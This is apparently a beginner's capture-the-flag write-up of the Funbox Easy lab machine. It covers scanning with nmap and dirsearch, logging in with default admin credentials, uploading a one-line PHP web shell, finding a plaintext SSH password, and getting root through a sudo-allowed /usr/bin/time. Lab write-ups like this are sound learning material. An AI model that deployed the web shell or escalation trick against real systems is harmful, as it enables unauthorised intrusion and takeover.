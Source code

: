 ```yaml
---
title: WRITE-UP FUNBOX EASY
date: 2024-07-23 14:59:59 +0700
categories: [Write up, pentest, red team, oscp]
tags: [write up]     # TAG names should always be lowercase
---
```


# Write-Up funbox:  Easy
## 1. Enumeration

i used netdicover to see where is ur lab

```terminal
sudo netdiscover
```

![target](/assets/img/funbox_easy/funbox3_netdiscover.png)

target is : 192.168.137.45

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.137.45

```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s
  
![target](/assets/img/funbox_easy/funbox3_nmap.png)

I checked this website . hmm apache default . I think this site have more

![target](/assets/img/funbox_easy/funbox3_checkport80.png)

so i used dirsearch to check subfolder of this site and i used default command

```terminal
dirsearch -u http://192.168.137.45
```

much more interesting i imagine 

![alt text](/assets/img/funbox_easy/funbox3_dirsearch.png)

## 2. Post Exploitation

first, i check /admin/ and i see a login simple i wanna try bruteforce but i cann't recive anything .

![alt text](/assets/img/funbox_easy/funbox3_dir_admin.png)

second, i look /store/ and boom i see a opensource store ? but i focus on admin login

![alt text](/assets/img/funbox_easy/funbox3_dir_store.png)


yeah, after that's i had been disconnected so i was be changed ip victims is 192.168.205.5

i followed admin/store login page 
![alt text](/assets/img/funbox_easy/funbox3_adminlogin_store.png)

i try login with user is admin and password is admin andddd bummm i can login with admin account then look at page i think i can upload a simple shell with add a book .

![alt text](/assets/img/funbox_easy/funbox3_admin_book.png)


![alt text](/assets/img/funbox_easy/funbox3_upload_a_book.png)

i will try upload a simple shell to take over this site
this file is ```shell.php```

```php
<?php echo system($_GET["cmd"]);?> 

```

after uploading answer the question. How can i trigger that's file i look a file i upload i can see a link

![alt text](/assets/img/funbox_easy/funbox3_see_file_uploads.png)

it's time to take control this site. 

![alt text](/assets/img/funbox_easy/funbox3_RCE_www-data.png)

but not enough for me i wanna ```root```

i see ```  /etc/passwd ``` hope to see something

![alt text](/assets/img/funbox_easy/funbox3_usertony.png)

i see user Tony let's check ```/home/tony```
i see a file is password.txt and i can see user ssh of Tony 

![alt text](/assets/img/funbox_easy/funbox3_home_tony.png)
![alt text](/assets/img/funbox_easy/funbox3_password_ssh_tony.png)

ssh time

## 3. Privilege Escalation

![alt text](/assets/img/funbox_easy/funbox3_SUID_tony.png)

i use ``` sudo -l ``` for some tricky
 
and i see ``` usr/bin/time ``` can run with sudo and  ``` NOPASSWD ```

right now we can run to privilege escalation 

```
sudo /usr/bin/time /bin/bash
```

right now we can get a ``` root ``` 

![alt text](/assets/img/funbox_easy/funbox3_root.png)
## Bingo and thanks for reading
